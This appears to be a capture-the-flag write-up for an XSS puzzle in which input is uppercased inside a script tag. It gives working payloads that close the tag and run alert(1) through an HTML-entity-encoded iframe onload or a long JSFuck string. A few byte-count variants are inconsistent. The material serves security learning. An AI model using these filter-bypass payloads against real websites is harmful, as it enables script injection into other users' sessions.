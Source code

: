 ```htmlmixed
<script>'({"userdata":"'-alert(1)//"})</script>
```

## Skandia

### Problem

This challenge is similar to `Warmup`, except that lowercase ascii letters are not allowed.

```javascript
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

### Solution

Tags and attribute names in HTML5 are *case insensitive*, and thindicates that `<SCRIPT>` will be considered the same as `</script>`. In other words, you may use `</script>` to coercively close the tag. Yet, `alert` will be converted to `ALERT`, which becomes `undefined` since Javascript is a case-sensitive language.

Fortunately, you can circumvent this restriction via using *html entities*.

An html character entity can be of the following forms: `&{entity_name};`, `&#{decimal_value};`, or `&#x{hex_value};`. For instance, `&amp;`, `&#38;`, `&#x26;` all represents the ampersand character (`&`).

This is because when the browser parses HTML tags, it'll decodes the HTML first. After that, whenever the browser needs to execute some script, the browser then calls the Javascript engine to run Javascript. To elaborate, attribute `onerror=&#97;&#97;&#97;` will be decoded to `onerror=aaa` first, and then the browser will execute `aaa` whenever an error event is triggered.

Consequently, HTML encode `alert(1)` should help you bypass the restrictions.

* **</script><iframe/onload=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>** (58 bytes)
* **</script><iframe/onload=&#97;&#108;&#101;&#114;&#116;(1)>** (57 bytes)

In fact, `;` can be omitted. Don't worry, most browsers still parse these encoded characters correctly. This will help you shorten your payload:

* **</script><iframe/onload=&#x61&#x6c&#x65&#x72&#x74(1)>** (53 bytes)
* **</script><iframe/onload=&#97;&#108;&#101;&#114;&#116;(1)>** (52 bytes)

There's actually another method to solve this challenge. You may convert `alert(1)` into [jsfuck](http://www.jsfuck.com/). This way, your input will not be affect by `toUpperCase` because they're all non-alphanumeric characters.

* **`</script><script>[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])()//` ** (872 bytes)

